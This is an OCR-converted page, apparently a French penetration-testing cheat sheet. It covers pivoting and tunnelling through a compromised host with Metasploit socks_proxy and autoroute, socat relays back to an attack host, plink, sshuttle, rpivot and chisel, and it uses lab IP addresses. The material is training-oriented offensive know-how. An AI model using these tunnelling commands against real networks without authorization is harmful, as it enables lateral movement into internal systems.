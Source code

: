 ```shell
`meterpreter > bg`
```shell
## Outils Spécialisés

### Commande Metasploit qui sélectionne le module auxiliaire socks_proxy.
```bash
`msf6 > use auxiliary/server/socks_proxy`
```shell
### Commande Metasploit qui liste tous les jobs en cours d'exécution.
```bash
`msf6 auxiliary(server/socks_proxy) > jobs`
```shell
### Commande Metasploit utilisée pour sélectionner le module autoroute.
```bash
`msf6 > use post/multi/manage/autoroute`
```shell
### Utilise Socat pour écouter sur le port 8080 puis faire un fork lorsque la connexion est reçue. Il se connectera ensuite à l'hôte d'attaque sur le port 80.
```bash
`socat TCP4-LISTEN:8080,fork TCP4:<AdresseIPdHôteAttaque>:80`
```shell
### Utilise Socat pour écouter sur le port 8080 puis faire un fork lorsque la connexion est reçue. Ensuite, il se connectera à l'hôte cible sur le port 8443.
```bash
`socat TCP4-LISTEN:8080,fork TCP4:<AdresseIPduCible>:8443`
```shell
### Commande Windows qui utilise Plink.exe de PuTTY pour effectuer une redirection de port SSH dynamique et établit un tunnel SSH avec la cible spécifiée. Cela permettra le chaînage de proxy sur un hôte Windows, similaire à ce qui est fait avec Proxychains sur un hôte Linux.
```bash
`plink -D 9050 ubuntu@<AdresseIPduCible>`
```shell
### Utilise apt-get pour installer l'outil sshuttle.
```bash
`sudo apt-get install sshuttle`
```shell
### Exécute sshuttle, se connecte à l'hôte cible et crée une route vers le réseau 172.16.5.0 pour que le trafic puisse passer de l'hôte d'attaque aux hôtes sur le réseau interne (172.16.5.0).
```bash
`sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v`
```shell
### Clone le dépôt GitHub du projet rpivot.
```bash
`sudo git clone https://github.com/klsecservices/rpivot.git`
```shell
### Utilise apt-get pour installer python2.7.
```bash
`sudo apt-get install python2.7`
```shell
### Utilisé pour exécuter le serveur rpivot (server.py) sur le port proxy 9050, le port serveur 9999 et écoutant sur n'importe quelle adresse IP (0.0.0.0).
```bash
`python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0`
```shell
### Utilisé pour exécuter le client rpivot (client.py) pour se connecter au serveur rpivot spécifié sur le port approprié.
```bash
`python2.7 client.py --server-ip 10.10.14.18 --server-port 9999`
```shell
### Utilisé pour démarrer un serveur chisel en mode verbose écoutant sur le port 1234 en utilisant SOCKS version 5.
```bash
`./chisel server -v -p 1234 --socks5`
```shell
### Utilisé pour se connecter à un serveur chisel à l'adresse IP et au port spécifiés en utilisant des socks.
```bash
`./chisel client -v 10.129.202.64:1234 socks`
```shell
```